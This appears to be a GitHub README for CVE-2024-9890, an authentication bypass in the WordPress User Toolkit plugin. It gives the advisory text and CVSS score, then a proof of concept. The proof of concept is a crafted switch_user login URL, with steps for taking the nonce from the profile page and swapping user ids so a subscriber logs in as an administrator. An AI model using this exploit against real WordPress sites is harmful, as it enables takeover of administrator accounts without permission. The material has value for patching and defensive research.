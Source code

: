 # CVE-2024-9890

User Toolkit <= 1.2.3 - Authenticated (Subscriber+) Authentication Bypass

# Description:
The User Toolkit plugin for WordPress is vulnerable to authentication bypass in versions up to, and including, 1.2.3. This is due to an improper capability check in the 'switchUser' function. This makes it possible for authenticated attackers, with subscriber-level permissions and above, to log in as any existing user on the site, such as an administrator.

```
Published: 2024-10-25 00:00:00
CVE: CVE-2024-9890
CVSS: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVSS Score: 8.8
Slugs: user-toolkit
```

POC
---

```
http://kubernetes.docker.internal/wp-login.php?action=switch_user&user_id=4&user_from=1&_wpnonce=8af7611329
```

Login as your user.
view-source your provfile page to grag the nonce value.
change the user_from value to your user id
change the user_id to the id of the admin
Done!
